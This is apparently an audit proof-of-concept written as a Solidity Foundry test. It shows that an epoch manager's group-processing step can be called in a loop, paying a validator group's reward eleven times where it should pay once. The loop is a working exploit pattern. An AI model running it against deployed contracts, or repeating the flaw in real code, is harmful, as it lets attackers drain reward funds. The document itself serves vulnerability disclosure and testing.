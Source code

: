 ```

election.setElectedValidators(valids);

deployCodeTo("MockRegistry.sol", abi.encode(false), PROXY_ADMIN_ADDRESS);

vm.prank(epochManagerEnabler);
epochManager.initializeSystem(firstEpochNumber, firstEpochBlock, firstElected);
travelNL2Epoch(vm, 1);

elected = epochManager.getElectedAccounts();
election.setGroupEpochRewardsBasedOnScore(group, groupEpochRewards);

}

  

function test_UnlimitedReward() public {

//This is a normal process.
epochManager.startNextEpochProcess();
epochManager.setToProcessGroups();
epochManager.processGroup(group, address(0), address(0));

//The amount of remuneration is also fine.
assertEq(election.distributedEpochRewards(group), groupEpochRewards);

//The problem is that you can loop the process as many times as you like (in this test, we set it to 10 times).

uint256 n = 10;
for (uint256 i = 0; i < n; i++) {
epochManager.startNextEpochProcess();
epochManager.setToProcessGroups();
epochManager.processGroup(group, address(0), address(0));
}

//In addition to the first normal reward, you have received 11 rewards.

assertEq(election.distributedEpochRewards(group), groupEpochRewards * (n + 1));
}
}

```
